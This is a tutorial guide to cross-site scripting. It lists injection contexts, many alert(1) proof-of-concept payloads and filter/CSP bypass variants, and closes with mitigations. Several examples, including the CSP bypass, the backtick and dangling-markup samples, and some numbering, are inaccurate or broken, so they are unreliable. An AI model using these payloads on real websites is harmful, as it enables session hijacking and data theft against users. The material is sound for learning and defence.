 # Comprehensive Guide on Cross-Site Scripting (XSS) and Its Bypasses
Cross-Site Scripting (XSS) is a widespread vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. This guide covers the types of XSS, methodologies for detection and exploitation, contexts of injection, and advanced techniques for bypassing protections.

1. Introduction to XSS
XSS attacks enable attackers to inject malicious scripts into web pages. These scripts can execute in the context of a user's browser, allowing attackers to steal information, hijack sessions, or perform actions on behalf of the user.

1.1 Types of XSS
Stored XSS: The malicious script is permanently stored on the target server, such as in a database or comment field.
Reflected XSS: The malicious script is reflected off a web server, typically via a URL query parameter.
DOM-Based XSS: The vulnerability exists in the client-side code rather than the server-side code, and the attack payload is executed as a result of modifying the DOM environment.

2. Methodology for Detecting XSS
2.1 Identify Injection Points
   
Check if any value you control (parameters, path, headers, cookies) is reflected in the HTML or used by JavaScript code.

# Determine Reflection Context

Raw HTML: Can you create new HTML tags or use attributes/events that support JavaScript?
Inside HTML Tag: Can you exit to raw HTML or create events/attributes to execute JavaScript?
Inside JavaScript Code: Can you escape the <script> tag or string context to execute arbitrary JavaScript?
4. Contexts for XSS Injection
Raw HTML Context
When your input is reflected in the raw HTML of a page, you can exploit it by injecting HTML tags that execute JavaScript. Common tags include:
```
<img src=x onerror=alert(1)>
<iframe src="javascript:alert(1)">
<svg onload=alert(1)>
```
3.2 Inside HTML Tag Attributes
If your input is reflected within an attribute value, consider the following approaches:

Escape Attribute and Tag: 
```
"><img src=x onerror=alert(1)>
```

Event Handlers: If escaping the tag is not possible, use attributes like onfocus, onclick: " autofocus onfocus=alert(1) x="
JavaScript Protocol: If within href, use javascript:: href="javascript:alert(1)"
3.3 Inside JavaScript Code
If the input is reflected within JavaScript code, you need to break out of the string or the <script> tag to execute arbitrary code:

Escape String: "; alert(1); "
Template Literals: If input is in a template literal: `${alert(1)}`
4. Advanced Techniques and Bypasses
4.1 Content Security Policy (CSP) Bypass
CSP is a security measure that helps prevent XSS by specifying trusted content sources. However, it can be bypassed if not correctly configured.

4.1.1 Methods to Bypass CSP
Using JSONP: Exploit JSONP endpoints that execute arbitrary JavaScript.
Misconfigured CSP Headers: Overly permissive or misconfigured CSP headers, such as those allowing unsafe-inline or unsafe-eval.
Inline Script Allowances: Inject inline scripts if the CSP allows it.
4.1.2 Example CSP Bypass
```
<script nonce="random-nonce">
    fetch('https://example.com/jsonp?callback=alert(1)')
</script>
```
4.2 Polyglot XSS
Polyglot payloads can function in multiple contexts (HTML, JS, CSS) to bypass input filters.

4.2.1 Example Polyglot Payload
```
"><svg onload=alert(1)><script>alert(1)</script>
4.3 Dangling Markup - HTML Scriptless Injection
```
If you cannot create executing HTML tags, you might abuse dangling markup, which involves placing incomplete tags that break the current HTML context.

4.3.1 Example Dangling Markup
```
<a href="/">Click here</a><b 
<script>alert(1)</script>
```
4.4 JSON-based XSS
When web applications parse JSON data and directly insert it into the DOM without proper sanitization, it can lead to XSS.

4.4.1 Example JSON-based XSS
```
{"name": "<img src=x onerror=alert(1)> "}
```
4.5 Bypassing Filters
Using techniques like UTF-7 encoding, breaking out of existing tags, or leveraging uncommon payloads.

Example UTF-7 Encoding
```
<iframe src="data:text/html;charset=utf-7,%2BADw-script%2BAD4-alert('XSS')%2BADw-/script%2BAD4-"></iframe>
```
4.6 Using HTML Entities
Encoding the payload using HTML entities to bypass filters that block certain characters.

4.6.1 Example HTML Entities
```
<img src=x onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```
4.7 Null Byte Injection
Using null bytes to bypass filters or terminate strings early.

4.7.1 Example Null Byte Injection
```
<img src="x" onerror="alert(1)";%00" src="y">
```
4.8 Case Variation
Altering the case of HTML tags and attributes to bypass case-sensitive filters.

4.8.1 Example Case Variation
```
<Svg OnloAd=alert(1)>
```
4.9 Using Backticks in JavaScript
Bypassing filters by using backticks in JavaScript for template literals.

4.9.1 Example Using Backticks
```
<script>let a = `alert(1)`</script>
```
4.10 Chained XSS
Combining multiple injection points to achieve a successful XSS attack.

4.10.1 Example Chained XSS
Injecting part of the payload in one input and another part in a different input to form a complete attack.

5. Exploiting DOM XSS
DOM XSS occurs when a script on the page modifies the DOM based on user input, potentially leading to the execution of malicious scripts.

5.1 Finding and Exploiting DOM XSS
Identify Sinks: Look for functions or methods (e.g., innerHTML, document.write) that render user-controlled input.
Control Flow: Understand how user input flows through the application to these sinks.
Payload Construction: Craft payloads that exploit these sinks.
5.1.1 Example DOM XSS Payload
```
<input oninput="document.getElementById('output').innerHTML = this.value">
<input value="<img src=x onerror=alert(1)>">
```
6. Debugging Client-Side JavaScript
When working with complex XSS payloads, debugging client-side JavaScript can help understand how input is processed and reflected.

6.1 Tools for Debugging
Browser Developer Tools: Use the console, breakpoints, and step through the JavaScript code to understand the application flow and find XSS injection points.
7. Mitigations and Best Practices
7.1 Input Validation and Sanitization
Ensure all user inputs are validated and sanitized before being processed or rendered.

7.1.1 Example Sanitization
Use libraries like DOMPurify to clean HTML inputs.

7.2 Content Security Policy (CSP)
Properly configure CSP headers to mitigate XSS.

7.2.1 Example CSP Header

Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-random-nonce'
7.3 Escaping Outputs
Always escape data before rendering it in HTML, JavaScript, or other client-side contexts.

Example Escaping
Use functions like htmlspecialchars in PHP or escape in Python.

Use Security Libraries
Utilize libraries like DOMPurify to clean HTML inputs and prevent XSS.

 Example DOMPurify Usage

var clean = DOMPurify.sanitize(dirty);
8. References
Pentest-Tools Blog on XSS Attacks
Hacktricks XSS Documentation
Hacktricks on CSP Bypass
This guide provides a comprehensive overview of XSS, various attack scenarios, contexts of injection, advanced techniques, and best practices for mitigation. Understanding these concepts is crucial for both defending against and exploiting XSS vulnerabilities in web applications.
